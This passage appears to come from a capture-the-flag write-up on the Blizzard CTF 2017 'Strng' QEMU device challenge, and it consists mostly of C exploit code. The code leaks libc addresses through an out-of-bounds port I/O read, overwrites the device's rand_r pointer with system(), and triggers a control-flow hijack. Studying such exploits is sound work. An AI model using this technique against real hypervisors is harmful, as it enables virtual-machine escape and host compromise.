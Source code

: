 ```c
    
    /*
     * Stage.I - leaking libc addr
     * set the strng->addr by pmio_write to a oob val
     * so that we can make an oob read by pmio_read
     */
    puts("[*] Stage.I - leaking libc addr\n");

    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 1) << 2);
    srand_addr_low = pmio_read(pmio_port + STRNG_PMIO_DATA);
    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 2) << 2);
    srand_addr_high = pmio_read(pmio_port + STRNG_PMIO_DATA);

    srand_addr = srand_addr_high;
    srand_addr <<= 32;
    srand_addr += srand_addr_low;
    libc_addr = srand_addr - 0x460a0;
    system_addr = libc_addr + 0x50d60;

    printf("[+] get addr of srand: 0x%llx\n", srand_addr);
    printf("[+] libc addr: 0x%llx\n", libc_addr);
    printf("[+] system addr: 0x%llx\n", system_addr);

    /*
     * Stage.II - overwrite the rand_r ptr
     * set the strng->rand_r to system by oob write in pmio
     */
    puts("\n[*] Stage.II - overwrite the rand_r ptr\n");

    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 5) << 2);
    pmio_write(pmio_port + STRNG_PMIO_DATA, (uint32_t) system_addr);
    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 6) << 2);
    pmio_write(pmio_port + STRNG_PMIO_DATA, (uint32_t) (system_addr >> 32));

    puts("[+] write done!");

    /*
     * Stage.III - control flow hijack!
     * call the strng->rand_r by pmio_write and hijack the control flow!
     */
    puts("\n[*] Stage.III - control flow hijack\n");

    puts("[*] trigger the strng->rand_r()...");
    pmio_write(pmio_port + STRNG_PMIO_ADDR, 3 << 2);
    pmio_write(pmio_port + STRNG_PMIO_DATA, 0xdeadbeef);

}
```

## REFERENCE

[qemu pwn-Blizzard CTF 2017 Strng writeup](https://xz.aliyun.com/t/6618#toc-4)

[【HARDWARE.0x00】PCI 設備簡易食用手冊](https://arttnba3.cn/2022/08/30/HARDWARE-0X00-PCI_DEVICE/)

